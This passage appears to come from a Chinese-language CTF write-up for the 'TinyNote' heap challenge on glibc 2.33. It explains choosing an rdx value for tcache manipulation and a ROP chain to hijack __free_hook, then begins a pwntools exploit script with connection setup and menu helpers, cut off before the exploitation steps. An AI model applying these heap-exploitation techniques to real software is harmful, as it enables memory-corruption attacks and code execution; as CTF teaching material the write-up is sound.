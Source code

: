 这里挑选的 `rdx` 值为 `heap+0x40`，因为这个位置及不会影响 `0x20` 的 `tcachebin`，也不会影响后续存放 `ROP` 链，以及最终劫持 `__free_hook` 所需的 `tcache bin`。接下来将这些值一个个插入进去就能够完成构造。

完整 exp：

```plain
#encoding:utf-8
from pwn import *
import re

ip = '82.157.6.175'
port = 24200 
local = 0
filename = './TinyNote'
PREV_INUSE = 0x1
IS_MMAPPED = 0x2
NON_MAIN_ARENA = 0x4

def create_connect():
    global io, elf, libc, libc_name

    elf = ELF(filename)
    context(os=elf.os, arch=elf.arch)

    if local:
        io = process(filename)
        if elf.arch == 'amd64':
            libc_name = '/lib/x86_64-linux-gnu/libc.so.6'
        elif elf.arch == 'i386':
            libc_name = '/lib/i386-linux-gnu/libc.so.6'
    else:
        io = remote(ip, port)
    try:
        libc_name = 'libc-2.33.so'
        libc = ELF(libc_name)
    except:
        pass

cc = lambda : create_connect()
s = lambda x : io.send(x)
sl = lambda x : io.sendline(x)
sla = lambda x, y: io.sendlineafter(x, y)
sa = lambda x, y: io.sendafter(x, y)
g = lambda x: gdb.attach(io, x)

r = lambda : io.recv(timeout=1)
rr = lambda x: io.recv(x, timeout=1)
rl = lambda : io.recvline(keepends=False)
ru = lambda x : io.recvuntil(x)
ra = lambda : io.recvall(timeout=1)
it = lambda : io.interactive()
cl = lambda : io.close()

def add(idx):
    sa(b'Choice:', b'1')
    sa(b'Index:', str(idx).encode())


def edit(idx, content):
    sa(b'Choice:', b'2')
    sa(b'Index:', str(idx).encode())
    sa(b'Content:', content.encode() if isinstance(content, str) else content)

def show(idx):
    sa(b'Choice:', b'3')
```